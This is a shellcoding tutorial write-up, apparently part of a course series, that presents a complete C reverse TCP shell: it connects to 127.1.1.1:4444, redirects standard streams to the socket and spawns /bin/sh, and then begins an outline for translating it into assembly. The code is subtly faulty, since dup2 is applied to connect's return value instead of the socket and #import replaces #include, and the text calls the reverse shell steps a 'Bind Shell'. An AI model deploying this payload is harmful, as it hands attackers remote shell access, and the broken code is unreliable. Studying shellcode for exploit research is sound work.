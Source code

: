 # Creating Shell Reverse TCP Shellcode

The proper steps for a Bind Shell are as follows:
1. Creating the socket
2. Connect to an IP and port
3. Redirect output
4. Execute a shell

#### In order to easily translate the calls in to assembly, lets build the Bind Shell in C first.  Then we will be able to translate it from there.

## Creating a Reverse Shell in C

We covered most of these details in the Shell Bind TCP Shellcode write up so I'm just going to put the C code in with light comments.

```c
#import <sys/socket.h>
#import <sys/types.h>
#import <netinet/in.h>
#import <stdlib.h>

int main() {
        int sockfd = socket(AF_INET, SOCK_STREAM, 0);
        
        struct sockaddr_in sock_addr;
        
        sock_addr.sin_family = AF_INET;
        sock_addr.sin_port = htons(4444);
        sock_addr.sin_addr.s_addr = inet_addr("127.1.1.1");
        
        // int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
        int connection = connect(sockfd, (struct sockaddr *)&sock_addr, sizeof(sock_addr));
        
        dup2(connection, 0);
        dup2(connection, 1);
        dup2(connection, 2);
        
        execve("/bin/sh", NULL, NULL);
}
```
## Translating to Assembly

Most of this is a repeat of the Bind Shell so there will be a lot of the same details.

The steps are the same as mentioned above:
1. [Creating the socket](#creating-the-socket)
2. [Connect to an IP and port](#connect-to-an-ip-and-port)
3. [Redirect output](#redirect-output)
4. [Execute a shell](#execute-a-shell)
5. [Putting it all together](#putting-it-all-together)
